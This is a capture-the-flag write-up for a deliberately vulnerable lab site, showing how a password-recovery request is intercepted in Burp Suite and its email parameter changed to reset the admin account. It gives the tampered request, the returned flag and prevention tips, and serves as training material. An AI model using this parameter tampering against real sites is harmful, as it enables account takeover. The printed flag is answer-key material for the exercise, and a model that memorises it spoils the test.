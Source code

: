 # Reset password bypass
- the password reset request can be manipulated by adding additional email parameters to divert the reset link
- the HTTP referer header may leak the password reset information if it is included in the request
- https://book.hacktricks.xyz/pentesting-web/reset-password

<b>keywords</b>: recover<br>
<b>attacked site</b>: http://borntosec.42/?page=recover

## Exploit
On the sign-in page, we find a link to the password recovery:
```
http://borntosec.42/?page=recover
```
After clicking the recover button, we intercept the POST request using <code>Burp Suite</code>:
``` http
POST /?page=recover HTTP/1.1
Host: 192.168.56.106
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://192.168.56.106
Connection: close
Referer: http://192.168.56.106/?page=recover
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1

mail=webmaster%40borntosec.com&Submit=Submit
```
We see that the default hidden parameters are sent when no other input is specified, and the email used to reset the password is passed directly in the request. We can modify it to reset the 'admin' password:
``` 
mail=admin%40borntosec.com&Submit=Submit
```
This returns the flag:
```
The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0
```

## Flag
1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0

## Exploit prevention
- use unique tokens for password reset links
- implement rate limiting for password reset requests
- adopt CAPTCHA to prevent automated abuse
